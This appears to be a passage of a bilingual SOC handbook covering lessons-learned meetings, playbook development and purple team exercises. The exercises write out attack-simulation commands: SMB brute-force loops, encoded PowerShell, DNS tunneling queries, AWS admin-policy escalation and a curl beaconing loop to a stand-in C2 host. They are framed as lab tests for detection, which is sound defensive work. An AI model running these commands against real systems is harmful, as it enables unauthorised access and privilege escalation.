| แชร์ผลการเรียนรู้ทั้งทีม | เก็บ lessons learned ไว้ส่วนตัว |
| ติดตามการแก้ไขจนเสร็จ | ระบุ action items แต่ไม่ติดตาม |

## เอกสารที่เกี่ยวข้อง
- [IR Framework](Framework.th.md)
- [แม่แบบรายงานเหตุการณ์](../11_Reporting_Templates/incident_report.th.md)
- [Escalation Matrix](Escalation_Matrix.th.md)

---

## Lessons Learned Meeting Agenda

### Meeting Structure (60 นาที)

| เวลา | หัวข้อ | ผู้นำ |
|:---|:---|:---|
| 0-5 min | เปิดประชุม + กฎ | Facilitator |
| 5-15 min | Timeline walkthrough | Incident Commander |
| 15-30 min | What went well? | ทุกคน |
| 30-45 min | What needs improvement? | ทุกคน |
| 45-55 min | Action items + owners | Facilitator |
| 55-60 min | สรุป + next steps | Incident Commander |

### Action Item Tracking

| # | Action | Owner | Due Date | Status |
|:---|:---|:---|:---|:---|
| 1 | อัปเดต playbook X | Analyst A | +2 weeks | ⬜ Open |
| 2 | สร้าง detection rule | Engineer B | +1 week | ⬜ Open |
| 3 | แก้ communication gap | SOC Manager | +3 days | ⬜ Open |

### Root Cause Categories

| Category | Description | ตัวอย่าง |
|:---|:---|:---|
| Process | กระบวนการไม่ครบ | ไม่มี playbook |
| People | ทักษะ/การสื่อสาร | ไม่ escalate ตามเวลา |
| Technology | เครื่องมือขัดข้อง | Alert ไม่ trigger |
| External | ปัจจัยภายนอก | Zero-day exploit |

### Improvement Tracking

| Lesson | Action Owner | Deadline | Status |
|:---|:---|:---|:---|
| Slow detection | Add rule | 2 wks | ☐ |
| Poor comms | Update plan | 1 wk | ☐ |
| Missing log | Onboard source | 3 wks | ☐ |

## ลงชื่อ

```
SOC Manager: ____________________ วันที่: __________
CISO:        ____________________ วันที่: __________
```


---

## File: 05_Incident_Response/Playbook_Development_Guide.en.md

# Incident Playbook Development Guide

**Document ID**: IR-SOP-015
**Version**: 1.0
**Classification**: Internal
**Last Updated**: 2026-02-16

> Guide for **creating, testing, and maintaining incident response playbooks**. Ensures consistency, quality, and completeness across all SOC playbooks. Covers structure standards, MITRE mapping, testing methodology, and lifecycle management.

---

## Playbook Architecture

```mermaid
graph TD
    subgraph Inputs["📥 Inputs"]
        A[Threat Intelligence]
        B[Incident Lessons Learned]
        C[New Detection Rules]
        D[Framework Requirements]
    end
    
    subgraph Development["🔨 Development"]
        E[Draft Playbook]
        F[Peer Review]
        G[Tabletop Test]
        H[Live Drill]
    end
    
    subgraph Output["📤 Outputs"]
        I[Published Playbook]
        J[SOAR Automation]
        K[Training Material]
    end
    
    Inputs --> Development --> Output
    
    style E fill:#3b82f6,color:#fff
    style H fill:#f97316,color:#fff
    style I fill:#22c55e,color:#fff
```

---

## Playbook Structure Standard

Every playbook MUST contain these sections:

| # | Section | Required | Description |
|:---:|:---|:---:|:---|
| 1 | **Metadata** | ✅ | ID, version, classification, MITRE mapping, last updated |
| 2 | **Overview** | ✅ | What this playbook covers and when to use it |
| 3 | **Severity mapping** | ✅ | How to determine P1/P2/P3/P4 for this incident type |
| 4 | **Detection** | ✅ | How this incident is detected (alert sources, indicators) |
| 5 | **Triage steps** | ✅ | Step-by-step initial analysis |
| 6 | **Investigation** | ✅ | Deep-dive analysis procedures |
| 7 | **Containment** | ✅ | Immediate actions to stop the attack |
| 8 | **Eradication** | ✅ | Remove threat from environment |
| 9 | **Recovery** | ✅ | Restore normal operations |
| 10 | **Escalation criteria** | ✅ | When and to whom to escalate |
| 11 | **Communication** | ✅ | Who to notify at each severity level |
| 12 | **Evidence checklist** | ✅ | What to collect and preserve |
| 13 | **Related playbooks** | ✅ | Links to related procedures |
| 14 | **Automation hooks** | ⬜ | SOAR integration points |
| 15 | **Metrics** | ⬜ | Playbook-specific KPIs |

### Metadata Template

```yaml
---
playbook_id: PB-XXX
title: [Playbook Title]
version: 1.0
classification: Internal
mitre_attack:
  tactics: [TA0001, TA0003]
  techniques: [T1566, T1566.001]
severity_range: P1-P3
last_updated: YYYY-MM-DD
author: [Name]
reviewer: [Name]
approver: [SOC Lead]
---
```

---

## Development Process

### Step-by-Step

| Step | Activity | Owner | Deliverable | Duration |
|:---:|:---|:---|:---|:---:|
| 1 | **Identify need** | SOC Lead / TI Analyst | Justification document | 1 day |
| 2 | **Research** | Analyst / Engineer | Threat research notes, MITRE mapping | 2–3 days |
| 3 | **Draft playbook** | Assigned author | Draft EN version | 3–5 days |
| 4 | **Peer review** | 2nd analyst + SOC Lead | Review feedback | 2 days |
| 5 | **Revise** | Author | Updated draft | 1–2 days |
| 6 | **Tabletop test** | SOC team | Test results, identified gaps | 1 day |
| 7 | **Revise (final)** | Author | Final version | 1 day |
| 8 | **Translate (TH)** | Assigned translator | Thai version | 2–3 days |
| 9 | **Approval** | SOC Manager | Approved playbook | 1 day |
| 10 | **Publish** | Author | Published + team notification | 1 day |
| 11 | **SOAR integration** | SOAR Engineer | Automated workflow | 3–5 days |

### Quality Checklist

- [ ] All 13 required sections present
- [ ] MITRE ATT&CK techniques mapped
- [ ] Severity criteria clearly defined
- [ ] Step-by-step triage with decision trees
- [ ] Containment actions have rollback procedures
- [ ] Escalation thresholds clearly stated
- [ ] Communication matrix included
- [ ] Evidence checklist complete
- [ ] Related playbooks linked
- [ ] Peer reviewed by ≥ 1 analyst
- [ ] Tabletop tested with SOC team
- [ ] Thai translation completed
- [ ] Published to repository

---

## MITRE ATT&CK Mapping

### Coverage Matrix

| Tactic | Existing Playbooks | Coverage |
|:---|:---|:---:|
| **Initial Access** (TA0001) | PB-01 Phishing, PB-17 BEC, PB-18 Exploit | ✅ |
| **Execution** (TA0002) | PB-11 Suspicious Script | 🟡 |
| **Persistence** (TA0003) | PB-14 Insider Threat, PB-15 Rogue Admin | 🟡 |
| **Privilege Escalation** (TA0004) | PB-07 Privilege Escalation | ✅ |
| **Defense Evasion** (TA0005) | PB-20 Log Clearing | 🟡 |
| **Credential Access** (TA0006) | PB-04 Brute Force, PB-05 Account Compromise, PB-26 MFA Bypass | ✅ |
| **Discovery** (TA0007) | — | 🔴 Gap |
| **Lateral Movement** (TA0008) | PB-12 Lateral Movement | ✅ |
| **Collection** (TA0009) | — | 🔴 Gap |
| **C2** (TA0011) | PB-13 C2, PB-24 DNS Tunneling | ✅ |
| **Exfiltration** (TA0010) | PB-08 Data Exfiltration | ✅ |
| **Impact** (TA0040) | PB-02 Ransomware, PB-09 DDoS, PB-23 Cryptomining | ✅ |

---

## Testing Methodology

### Tabletop Test Procedure

| Step | Activity | Duration |
|:---:|:---|:---:|
| 1 | Facilitator presents scenario | 5 min |
| 2 | Team walks through playbook step-by-step | 20 min |
| 3 | Identify gaps, ambiguities, missing steps | 15 min |
| 4 | Discuss improvements | 10 min |
| 5 | Document action items | 5 min |

### Test Scoring

| Criteria | 1 — Poor | 2 — Fair | 3 — Good | 4 — Excellent |
|:---|:---|:---|:---|:---|
| **Completeness** | Many steps missing | Some gaps | Minor omissions | Comprehensive |
| **Clarity** | Ambiguous, confusing | Some confusion | Mostly clear | Crystal clear |
| **Actionability** | Vague instructions | Some specifics | Mostly actionable | All steps actionable |
| **Flow** | Illogical order | Some flow issues | Good flow | Perfect logical flow |
| **Automation** | No SOAR hooks | Partial automation | Most steps automatable | Fully integrated |

| Overall Score | Result | Action |
|:---:|:---|:---|
| 16–20 | ✅ Publish | Ready for production |
| 11–15 | 🟡 Minor revisions | Address feedback, re-review |
| 6–10 | 🟠 Major revisions | Significant rewrite needed |
| 1–5 | 🔴 Reject | Start over with new approach |

---

## Lifecycle Management

### Review Schedule

| Trigger | Action | Owner |
|:---|:---|:---|
| **Quarterly** | Content review, update links | Playbook author |
| **After major incident** | Update with lessons learned | IR Lead |
| **New TI** | Add new IOCs, techniques | TI Analyst |
| **MITRE update** | Re-map to updated framework | SOC Engineer |
| **Tool change** | Update tool-specific steps | SOAR Engineer |
| **Annual** | Full review, tabletop re-test | SOC Manager |

### Version Control

| Change Type | Version Bump | Approval |
|:---|:---:|:---|
| Typo / formatting | Patch (1.0.1) | Author |
| Step update / clarification | Minor (1.1.0) | Peer review |
| New section / major rewrite | Major (2.0.0) | SOC Manager |
| New playbook | Initial (1.0.0) | SOC Manager |

---

## Metrics

| Metric | Target |
|:---|:---:|
| Playbook coverage (MITRE tactics) | ≥ 90% |
| Playbooks with tabletop test | 100% |
| Playbooks reviewed within 12 months | 100% |
| Average playbook development time | < 15 days |
| Analyst satisfaction score | ≥ 4/5 |
| Playbooks with SOAR integration | ≥ 60% |

---

## Related Documents

-   [IR Framework](Framework.en.md) — NIST-based framework
-   [Severity Matrix](Severity_Matrix.en.md) — P1–P4 definitions
-   [Tier 1 Runbook](Runbooks/Tier1_Runbook.en.md) — Day-to-day procedures
-   [SOAR Playbooks](SOAR_Playbooks.en.md) — Automation templates
-   [Lessons Learned Template](Lessons_Learned_Template.en.md) — Post-incident review
-   [SOC Automation Catalog](../06_Operations_Management/SOC_Automation_Catalog.en.md) — Automation inventory


---

## File: 05_Incident_Response/Playbook_Development_Guide.th.md

# คู่มือการพัฒนา Playbook ตอบสนองเหตุการณ์

**รหัสเอกสาร**: IR-SOP-015
**เวอร์ชัน**: 1.0
**การจัดชั้นความลับ**: ใช้ภายใน
**อัปเดตล่าสุด**: 2026-02-16

> คู่มือ **สร้าง, ทดสอบ, และบำรุงรักษา IR playbooks** เพื่อความสม่ำเสมอ คุณภาพ และครบถ้วนทุก playbook ครอบคลุมมาตรฐานโครงสร้าง, MITRE mapping, วิธีทดสอบ, และ lifecycle management

---

## มาตรฐานโครงสร้าง Playbook

ทุก playbook **ต้องมี** sections เหล่านี้:

| # | Section | จำเป็น | คำอธิบาย |
|:---:|:---|:---:|:---|
| 1 | **Metadata** | ✅ | ID, version, MITRE mapping |
| 2 | **ภาพรวม** | ✅ | ขอบเขตและเมื่อไรใช้ |
| 3 | **Severity mapping** | ✅ | เกณฑ์ P1–P4 |
| 4 | **การตรวจจับ** | ✅ | แหล่ง alert, indicators |
| 5 | **Triage steps** | ✅ | ขั้นตอนวิเคราะห์เบื้องต้น |
| 6 | **การสืบสวน** | ✅ | วิเคราะห์เชิงลึก |
| 7 | **Containment** | ✅ | หยุดการโจมตี |
| 8 | **Eradication** | ✅ | ลบภัยคุกคาม |
| 9 | **Recovery** | ✅ | กู้คืนระบบ |
| 10 | **เกณฑ์ Escalation** | ✅ | เมื่อไรเลื่อนระดับ |
| 11 | **การสื่อสาร** | ✅ | แจ้งใครในแต่ละ severity |
| 12 | **Evidence checklist** | ✅ | เก็บหลักฐานอะไร |
| 13 | **Playbooks ที่เกี่ยวข้อง** | ✅ | Link เอกสารอื่น |

---

## กระบวนการพัฒนา

| ขั้น | กิจกรรม | ผู้ดำเนินการ | ระยะเวลา |
|:---:|:---|:---|:---:|
| 1 | ระบุความจำเป็น | SOC Lead | 1 วัน |
| 2 | Research + MITRE mapping | Analyst | 2–3 วัน |
| 3 | ร่าง playbook (EN) | ผู้เขียน | 3–5 วัน |
| 4 | Peer review | Analyst + SOC Lead | 2 วัน |
| 5 | แก้ไข | ผู้เขียน | 1–2 วัน |
| 6 | Tabletop test | ทีม SOC | 1 วัน |
| 7 | แก้ไขรอบสุดท้าย | ผู้เขียน | 1 วัน |
| 8 | แปลภาษาไทย | ผู้แปล | 2–3 วัน |
| 9 | อนุมัติ | SOC Manager | 1 วัน |
| 10 | เผยแพร่ | ผู้เขียน | 1 วัน |
| 11 | SOAR integration | SOAR Engineer | 3–5 วัน |

### Quality Checklist

- [ ] ครบ 13 sections ที่จำเป็น
- [ ] MITRE ATT&CK mapped
- [ ] เกณฑ์ severity ชัดเจน
- [ ] Triage steps เป็นขั้นตอน
- [ ] Containment มี rollback
- [ ] Escalation threshold ชัด
- [ ] Communication matrix ครบ
- [ ] Evidence checklist ครบ
- [ ] Peer reviewed ≥ 1 คน
- [ ] Tabletop tested
- [ ] แปลไทยแล้ว
- [ ] Publish ลง repository

---

## MITRE ATT&CK Coverage

| Tactic | Playbooks ปัจจุบัน | Coverage |
|:---|:---|:---:|
| Initial Access | PB-01 Phishing, PB-17 BEC, PB-18 Exploit | ✅ |
| Execution | PB-11 Suspicious Script | 🟡 |
| Persistence | PB-14 Insider Threat, PB-15 Rogue Admin | 🟡 |
| Privilege Escalation | PB-07 | ✅ |
| Defense Evasion | PB-20 Log Clearing | 🟡 |
| Credential Access | PB-04, PB-05, PB-26 | ✅ |
| Discovery | — | 🔴 Gap |
| Lateral Movement | PB-12 | ✅ |
| Collection | — | 🔴 Gap |
| C2 | PB-13, PB-24 | ✅ |
| Exfiltration | PB-08 | ✅ |
| Impact | PB-02, PB-09, PB-23 | ✅ |

---

## วิธีทดสอบ Tabletop

| ขั้น | กิจกรรม | ระยะเวลา |
|:---:|:---|:---:|
| 1 | Facilitator นำเสนอ scenario | 5 นาที |
| 2 | ทีมเดินตาม playbook ทีละขั้น | 20 นาที |
| 3 | ระบุช่องว่าง, ความคลุมเครือ | 15 นาที |
| 4 | อภิปรายปรับปรุง | 10 นาที |
| 5 | บันทึก action items | 5 นาที |

### เกณฑ์ให้คะแนน

| คะแนนรวม | ผลลัพธ์ | การดำเนินการ |
|:---:|:---|:---|
| 16–20 | ✅ เผยแพร่ได้ | พร้อม production |
| 11–15 | 🟡 ปรับแก้เล็กน้อย | แก้ไขตาม feedback |
| 6–10 | 🟠 ปรับแก้มาก | เขียนใหม่บางส่วน |
| 1–5 | 🔴 ไม่ผ่าน | เริ่มใหม่ |

---

## Lifecycle Management

| Trigger | Action | ผู้รับผิดชอบ |
|:---|:---|:---|
| รายไตรมาส | ทบทวน content, อัปเดต links | ผู้เขียน |
| หลังเหตุการณ์สำคัญ | อัปเดตจาก lessons learned | IR Lead |
| TI ใหม่ | เพิ่ม IOCs, techniques | TI Analyst |
| MITRE update | Re-map framework | SOC Engineer |
| เปลี่ยนเครื่องมือ | อัปเดตขั้นตอน | SOAR Engineer |
| รายปี | ทบทวนทั้งหมด + ทดสอบ tabletop | SOC Manager |

---

## ตัวชี้วัด

| ตัวชี้วัด | เป้าหมาย |
|:---|:---:|
| Playbook coverage (MITRE tactics) | ≥ 90% |
| Playbooks ผ่าน tabletop | 100% |
| Playbooks ทบทวนภายใน 12 เดือน | 100% |
| เวลาพัฒนาเฉลี่ย | < 15 วัน |
| ความพึงพอใจ analyst | ≥ 4/5 |
| Playbooks มี SOAR | ≥ 60% |

---

## Playbook Template Structure

| ส่วน | เนื้อหา | ตัวอย่าง |
|:---|:---|:---|
| **Metadata** | ID, version, owner, MITRE mapping | PB-001, v2.1, DetEng |
| **Scope** | เมื่อไหร่ที่ใช้ playbook นี้ | เมื่อ EDR alert ransomware |
| **Prerequisites** | สิ่งที่ต้องมีก่อน | SIEM access, EDR console |
| **Step-by-step** | ขั้นตอนการตอบสนอง | 1. Verify → 2. Contain → ... |
| **Escalation** | เมื่อไหร่ + ใคร | P1 → SOC Manager ทันที |
| **Evidence** | สิ่งที่ต้องเก็บ | Memory dump, disk image |
| **Resolution** | เกณฑ์การปิดเคส | Clean scan + 48h monitoring |
| **References** | เอกสารอ้างอิง | MITRE, Sigma rules |

## Quality Checklist

| # | เกณฑ์ | ✅/❌ |
|:---:|:---|:---:|
| 1 | มี Mermaid diagram สำหรับ workflow | ☐ |
| 2 | ทุกขั้นตอนสามารถทำได้จริง (actionable) | ☐ |
| 3 | มี decision points ที่ชัดเจน | ☐ |
| 4 | Evidence collection ระบุเครื่องมือและคำสั่ง | ☐ |
| 5 | Escalation criteria ชัดเจน | ☐ |
| 6 | มี SLA timeline | ☐ |
| 7 | ทดสอบจริงด้วย tabletop/purple team | ☐ |
| 8 | มี Sigma rule cross-reference | ☐ |
| 9 | Link ไปยัง playbooks ที่เกี่ยวข้อง | ☐ |
| 10 | ผ่าน peer review | ☐ |

## Playbook Lifecycle

```mermaid
graph LR
    Draft["📝 Draft"] --> Review["👀 Peer Review"]
    Review --> Test["🧪 Tabletop Test"]
    Test --> Approve["✅ Approve"]
    Approve --> Deploy["🚀 Deploy"]
    Deploy --> Monitor["📊 Monitor"]
    Monitor --> Update["🔄 Update"]
    Update --> Review
```

## Playbook Metrics

| ตัวชี้วัด | เป้าหมาย | สิ่งที่บอก |
|:---|:---|:---|
| **Usage Rate** | ≥ 80% ของ incidents ใช้ playbook | Coverage ดีพอหรือไม่ |
| **Accuracy** | ≥ 90% ทำตาม playbook ได้สำเร็จ | Playbook เขียนดีหรือไม่ |
| **Time Savings** | ลด MTTR ≥ 30% | Automation คุ้มหรือไม่ |
| **Version Freshness** | อัปเดตภายใน 6 เดือน | เอกสาร stale หรือไม่ |
| **Coverage** | ≥ top 20 incident types | ครอบคลุมพอหรือไม่ |

## Playbook Quality Standards

### Mandatory Sections

| Section | Required Content | Review Criteria |
|:---|:---|:---|
| Objective | ระบุเป้าหมายชัดเจน | Measurable |
| Scope | ขอบเขตและข้อจำกัด | Complete |
| Prerequisites | เครื่องมือ + สิทธิ์ | Verified |
| Steps | ขั้นตอนละเอียด | Actionable |
| Decision Points | เงื่อนไข + ทางเลือก | Clear criteria |
| Escalation | เมื่อไร + ส่งใคร | Defined |
| References | MITRE + logs | Up-to-date |

### Playbook Review Cycle

| Trigger | Reviewer | SLA |
|:---|:---|:---|
| New playbook | Peer + Manager | 5 วันทำการ |
| Post-incident update | Incident owner | 3 วันทำการ |
| Quarterly review | SOC Lead | 2 สัปดาห์ |
| Tool change | Engineer | 1 สัปดาห์ |

### Template Quick Reference

| Section | Max Length |
|:---|:---|
| Objective | 2-3 sentences |
| Prerequisites | Bullet list |
| Steps | 10-15 max |
| Escalation | Decision tree |

## เอกสารที่เกี่ยวข้อง

-   [IR Framework](Framework.en.md) — กรอบงาน NIST
-   [Severity Matrix](Severity_Matrix.en.md) — คำจำกัดความ P1–P4
-   [SOAR Playbooks](SOAR_Playbooks.en.md) — Automation templates
-   [SOC Automation Catalog](../06_Operations_Management/SOC_Automation_Catalog.en.md) — คลัง Automation


---

## File: 05_Incident_Response/Purple_Team_Exercises.en.md

# Purple Team Exercise Guide

> **Document ID:** PTX-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Owner:** Detection Engineering / SOC Manager

---

## Purpose

Validate that your detection rules and playbooks actually work by simulating real-world attack techniques in a controlled environment. Purple teaming bridges the gap between Red Team (attack) and Blue Team (defense).

---

## How It Works

```
Red Team action → SOC should detect → Verify alert fired → Fix if not
```

| Phase | Who | What |
|:---|:---|:---|
| **Plan** | Both teams | Select MITRE techniques to test |
| **Execute** | Red Team | Run controlled attack simulation |
| **Detect** | Blue Team | Monitor for alerts in real-time |
| **Evaluate** | Both teams | Did the detection fire? Correctly? On time? |
| **Improve** | Detection Eng | Tune/create rules for gaps found |

---

## Exercise Catalog — By MITRE ATT&CK

### 🟢 Beginner Exercises

#### EX-01: Phishing Link Click (T1204.001)
**Simulates:** User clicking a phishing link  
**Playbook:** PB-01  
**Sigma Rule:** `proc_office_spawn_powershell`

```bash
# Red Team: Send test phishing email with known-safe tracking link
# Use GoPhish or similar platform
# Target: Test mailbox (not real users)

# Expected Blue Team Detection:
# 1. Email gateway flags the email
# 2. If click → proxy logs show access to known-bad URL category
# 3. If payload → EDR blocks execution
```

**Pass Criteria:**
- [ ] Email gateway detected phishing
- [ ] Proxy blocked the URL
- [ ] Alert created within 5 minutes

---

#### EX-02: Brute Force Login (T1110)
**Simulates:** Password brute force attack  
**Playbook:** PB-04  
**Sigma Rule:** `win_multiple_failed_logins`

```bash
# Red Team: Generate 50 failed logins in 5 minutes
# Linux:
for i in $(seq 1 50); do 
  smbclient //TARGET/share -U "testuser%wrongpass$i" 2>/dev/null
done

# Windows:
1..50 | ForEach { net use \\TARGET\share /user:testuser "wrongpass$_" 2>$null }
```

**Pass Criteria:**
- [ ] SIEM alert fires after threshold (e.g., 10 failures in 5 min)
- [ ] Source IP identified correctly
- [ ] Alert severity = Medium or higher

---

#### EX-03: Suspicious PowerShell (T1059.001)
**Simulates:** Encoded PowerShell execution  
**Playbook:** PB-11  
**Sigma Rule:** `proc_powershell_encoded`

```powershell
# Red Team: Run encoded but BENIGN PowerShell
$cmd = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes('Write-Host "Purple Team Test"'))
powershell.exe -EncodedCommand $cmd
```

**Pass Criteria:**
- [ ] EDR alerts on encoded PowerShell
- [ ] Sysmon Event ID 1 captures command line
- [ ] SIEM correlates with Sigma rule

---

### 🟡 Intermediate Exercises

#### EX-04: Lateral Movement via SMB (T1021.002)
**Simulates:** Admin share access to another host  
**Playbook:** PB-12  
**Sigma Rule:** `win_admin_share_access`

```powershell
# Red Team: Access admin share on target (authorized test account)
net use \\TARGET\C$ /user:DOMAIN\testadmin <password>
dir \\TARGET\C$\Windows\Temp
net use \\TARGET\C$ /delete
```

**Pass Criteria:**
- [ ] Event ID 5140/5145 logged for share access
- [ ] SIEM alert fires for admin share access
- [ ] Source/destination correctly identified

---

#### EX-05: Data Exfiltration via DNS (T1048.003)
**Simulates:** DNS tunneling exfiltration  
**Playbook:** PB-24  
**Sigma Rule:** `net_dns_tunneling`

```bash
# Red Team: Generate high-volume DNS queries with long subdomains
for i in $(seq 1 1000); do
  nslookup $(head -c 60 /dev/urandom | base64 | tr -d '/+=' | head -c 50).test.example.com
done
```

**Pass Criteria:**
- [ ] DNS monitoring detects abnormal query volume
- [ ] Long subdomain queries flagged
- [ ] Alert references DNS tunneling

---

#### EX-06: Shadow Copy Deletion (T1490)
**Simulates:** Pre-ransomware indicator  
**Playbook:** PB-02  

```powershell
# Red Team: Run vssadmin (WILL NOT actually delete in test mode)
# ⚠️ Run on ISOLATED test VM only!
vssadmin list shadows
# Log-only: DO NOT run "delete shadows" on production
# Instead, verify Sysmon detects the vssadmin execution
```

**Pass Criteria:**
- [ ] EDR detects vssadmin execution
- [ ] Process tree shows parent process
- [ ] Alert severity = High or Critical

---

### 🔴 Advanced Exercises

#### EX-07: AiTM / MFA Bypass (T1556.006)
**Simulates:** Adversary-in-the-Middle session theft  
**Playbook:** PB-26  
**Sigma Rule:** `cloud_mfa_bypass`

```
# Red Team: 
# 1. Use Evilginx2 or similar on isolated lab
# 2. Capture session token from test account
# 3. Replay session token from different IP/region

# Expected Detection:
# Azure AD: "Anomalous Token" risk detection
# Impossible travel between token use locations
# Session from unusual client/browser fingerprint
```

**Pass Criteria:**
- [ ] Azure AD risk detection fires
- [ ] SOC identifies token reuse anomaly
- [ ] Session revocation happens within 15 min

---

#### EX-08: Cloud Privilege Escalation (T1078.004)
**Simulates:** IAM privilege escalation in AWS  
**Playbook:** PB-16  

```bash
# Red Team (in test AWS account):
aws iam create-user --user-name purple-test-user
aws iam attach-user-policy --user-name purple-test-user \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
aws iam create-access-key --user-name purple-test-user

# Cleanup:
aws iam detach-user-policy --user-name purple-test-user \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
aws iam delete-user --user-name purple-test-user
```

**Pass Criteria:**
- [ ] CloudTrail logs IAM changes
- [ ] SIEM alert for admin policy attachment
- [ ] SOC identifies the escalation within 30 min

---

#### EX-09: C2 Beaconing (T1071.001)
**Simulates:** Command and control callbacks  
**Playbook:** PB-13  
**Sigma Rule:** `net_beaconing`

```bash
# Red Team: Simulate periodic callbacks (60-second intervals)
while true; do
  curl -s https://safe-c2-test.example.com/beacon?id=test123 > /dev/null
  sleep $((55 + RANDOM % 10))  # Jitter: 55-65 seconds
done
```

**Pass Criteria:**
- [ ] Network monitoring detects periodic beaconing
- [ ] Regular interval pattern identified
- [ ] Destination flagged for investigation

---

## Results Tracking Template

| Exercise | Technique | Detection? | Time to Detect | Alert Accurate? | Action |
|:---|:---|:---:|:---:|:---:|:---|
| EX-01 | T1204 | ✅ / ❌ | __ min | ✅ / ❌ | [tune/create/OK] |
| EX-02 | T1110 | ✅ / ❌ | __ min | ✅ / ❌ | [tune/create/OK] |
| EX-03 | T1059 | ✅ / ❌ | __ min | ✅ / ❌ | [tune/create/OK] |
| ... | ... | ... | ... | ... | ... |

---

## Safety Rules

> [!CAUTION]
> 1. **NEVER run on production** without written approval and a rollback plan
> 2. **Use isolated test environments** (VMs, lab networks, test cloud accounts)
> 3. **Inform the SOC** that an exercise is happening (or test blind response)
> 4. **Have a kill switch** — ability to stop immediately if something goes wrong
> 5. **Document everything** — timestamped log of all actions taken

---

## Recommended Tools

| Tool | Purpose | License |
|:---|:---|:---|
| [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) | Pre-built MITRE ATT&CK test cases | MIT |
| [Caldera](https://github.com/mitre/caldera) | Automated adversary emulation | Apache 2.0 |
| [Infection Monkey](https://github.com/guardicore/monkey) | Network breach simulation | GPLv3 |
| [Stratus Red Team](https://github.com/DataDog/stratus-red-team) | Cloud attack simulation | Apache 2.0 |
| [GoPhish](https://github.com/gophish/gophish) | Phishing simulation | MIT |

---

## Exercise Calendar

| Frequency | Exercise | Coverage |
|:---:|:---|:---|
| Monthly | 2 Beginner exercises | Core detections |
| Quarterly | 2 Intermediate exercises | Advanced detections |
| Semi-annual | 1 Advanced exercise | Full kill-chain |
| Annual | Full purple team engagement | End-to-end |

---

## Related Documents

- [Tabletop Exercises](Tabletop_Exercises.en.md)
- [Detection Rules Index](../08_Detection_Engineering/README.md)
- [MITRE ATT&CK Heatmap](../tools/mitre_attack_heatmap.html)
- [Sigma Rule Validator](../tools/sigma_validator.py)


---

## File: 05_Incident_Response/Purple_Team_Exercises.th.md

# คู่มือการซ้อม Purple Team

> **รหัสเอกสาร:** PTX-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **เจ้าของ:** Detection Engineering / SOC Manager

---

## วัตถุประสงค์

ทดสอบว่า detection rules และ playbooks ทำงานจริง โดยจำลองเทคนิคโจมตีจริงในสภาพแวดล้อมที่ควบคุม Purple team = Red Team (โจมตี) + Blue Team (ตรวจจับ)

---

## วิธีทำงาน

```
Red Team ลงมือ → SOC ควรตรวจพบ → ตรวจว่า alert มา → แก้ไขถ้าไม่มา
```

---

## แบบฝึกหัด

### 🟢 เริ่มต้น

#### EX-01: คลิก Phishing Link (T1204)
- จำลองส่ง phishing → ตรวจว่า email gateway block ไหม
- **ผ่าน**: Email ถูกจับ + URL ถูก block + Alert ใน 5 นาที

#### EX-02: Brute Force Login (T1110)
- สร้าง 50 failed logins ใน 5 นาที
- **ผ่าน**: SIEM alert สำหรับ >10 failures

#### EX-03: PowerShell เข้ารหัส (T1059.001)
- รัน encoded PowerShell (ไม่อันตราย)
- **ผ่าน**: EDR + SIEM จับได้

### 🟡 ปานกลาง

#### EX-04: Lateral Movement SMB (T1021.002)
- เข้าถึง admin share ข้ามเครื่อง
- **ผ่าน**: Event 5140/5145 + SIEM alert

#### EX-05: DNS Tunneling (T1048.003)
- สร้าง DNS query ปริมาณมาก + subdomain ยาว
- **ผ่าน**: ตรวจพบ pattern ผิดปกติ

#### EX-06: Shadow Copy Deletion (T1490)
- ตรวจจับ vssadmin execution (สัญญาณ ransomware)
- **ผ่าน**: EDR alert = High/Critical

### 🔴 ขั้นสูง

#### EX-07: MFA Bypass / AiTM (T1556.006)
- จำลอง session token theft (ในแล็บ)
- **ผ่าน**: Azure AD risk detection + session revoke <15 นาที

#### EX-08: Cloud Privilege Escalation (T1078.004)
- สร้าง IAM user + ให้ admin policy (test account)
- **ผ่าน**: CloudTrail → SIEM alert <30 นาที

#### EX-09: C2 Beaconing (T1071.001)
- จำลอง periodic callback ทุก 60 วินาที
- **ผ่าน**: Network monitoring จับ pattern

---

## ตารางบันทึกผล

| แบบฝึก | Technique | ตรวจพบ? | เวลา | Alert ถูก? | แก้ไข |
|:---|:---|:---:|:---:|:---:|:---|
| EX-01 | T1204 | ✅/❌ | __ นาที | ✅/❌ | [tune/สร้าง/OK] |
| EX-02 | T1110 | ✅/❌ | __ นาที | ✅/❌ | [tune/สร้าง/OK] |
| ... | ... | ... | ... | ... | ... |

---

## ⚠️ กฎความปลอดภัย

1. **ห้ามรันบน production** โดยไม่มีอนุมัติเป็นลายลักษณ์อักษร
2. **ใช้สภาพแวดล้อมทดสอบ** (VM, lab, test cloud account)
3. **แจ้ง SOC** ว่ากำลังซ้อม (หรือทดสอบแบบ blind)
4. **มี kill switch** — หยุดได้ทันทีถ้ามีปัญหา
5. **บันทึกทุกอย่าง** — timestamp ทุกการกระทำ

---

## เครื่องมือแนะนำ

| เครื่องมือ | ใช้ทำอะไร |
|:---|:---|
| Atomic Red Team | ชุดทดสอบ MITRE ATT&CK สำเร็จรูป |
| Caldera (MITRE) | จำลองผู้โจมตีอัตโนมัติ |
| Stratus Red Team | จำลองโจมตี Cloud |
| GoPhish | จำลอง Phishing |

---

## ปฏิทิน

| ความถี่ | แบบฝึก | Coverage |
|:---:|:---|:---|
| รายเดือน | 2 แบบเริ่มต้น | Core detections |
| รายไตรมาส | 2 แบบปานกลาง | Advanced detections |
| ทุก 6 เดือน | 1 แบบขั้นสูง | Full kill-chain |
| ประจำปี | Full purple team | End-to-end |

---

## ระดับความซับซ้อนของ Exercise

| ระดับ | ลักษณะ | ระยะเวลา | เหมาะกับ |
|:---|:---|:---|:---|
| **Beginner** | Atomic tests, single technique | 1–2 ชม. | SOC ใหม่ |
| **Intermediate** | Multi-step attack chain | 4–8 ชม. | SOC ที่มี playbooks |
| **Advanced** | Full kill chain simulation | 1–3 วัน | SOC ที่ mature |
| **Expert** | Red team engagement + debrief | 1–2 สัปดาห์ | SOC ระดับ 4-5 |

## ตัวอย่าง Exercise Scenarios

### Scenario 1: Phishing → Credential Theft → Lateral Movement

| ขั้นตอน | Red Team Action | Expected Detection |
|:---|:---|:---|
